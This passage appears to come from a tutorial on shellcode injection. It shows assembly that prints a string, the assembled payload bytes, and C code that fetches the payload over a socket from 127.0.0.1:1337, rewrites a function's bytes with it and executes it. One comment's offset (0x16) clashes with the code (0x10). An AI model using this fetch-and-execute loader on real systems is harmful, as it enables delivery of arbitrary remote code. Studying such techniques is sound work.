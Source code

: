 ```asm
inc     edi         ; set edi to 1, since STDOUT_FILENO == 1
pop     rsi         ; pop the address of `bar()` into rsi - 
                    ;   this will be used to get address of output string,
                    ;   which is located at the end of the payload
add     rsi, 0x10   ; add offset 22 (0x16) to the address of `bar()`,
                    ;   so it points to the output string.
                    ;   this offset can be easily determined from assembled bytes
add     edx, 0x6    ; strlen
syscall
int3                ; trap to debugger (breakpoint)

                    ; output string bytes start here
db      'v'
db      'i'
db      'r'
db      'u'
db      'z'
db      0xa         ; newline
```

The final assembled payload bytes will look like this:
```c
"\x57\x31\xC0\x31\xFF\x31\xD2\xFF\xC0\xFF\xC7\x5E\x48\x83\xC6\x10\x83\xC2\x06\x0F\x05\xCC\x76\x69\x72\x75\x7a\x0a\x00"
```

The function `fetch_bytes()` will identify the payload by locating it's pre-set starting byte `0xcc`.  
Let's insert the starting byte at the beginning and store the whole payload in a file named `payload`:
```sh
$ printf "\xcc\x57\x31\xC0\x31\xFF\x31\xD2\xFF\xC0\xFF\xC7\x5E\x48\x83\xC6\x10\x83\xC2\x06\x0F\x05\xCC\x76\x69\x72\x75\x7a\x0a\x00" > payload
```

Now that the size of the payload is known, `bar()`'s opcodes can be rewritten with payload bytes:
```c
#define PAYLOAD_SIZE 31

int main(void) {
    size_t i = 0;
    byte outbuf[PAYLOAD_SIZE] = { 0 };  /* used to store the payload */

    /* fetch payload from remote - 127.0.0.1:1337 */
    if (fetch_bytes("127.0.0.1", 1337, outbuf, PAYLOAD_SIZE) != EXIT_SUCCESS) {
        return EXIT_FAILURE;
    }

    /* fetch the address of nested function `bar()` */
    byte *ptr = foo();

    /* rewrite the nested function with payload bytes */
    for (i = 0; i < PAYLOAD_SIZE;  i++) {
        *(ptr + i) = outbuf[i]; 
    }

    /* finally, execute the payload */
    exec((void (*)()) ptr);

    return EXIT_SUCCESS;
}
```
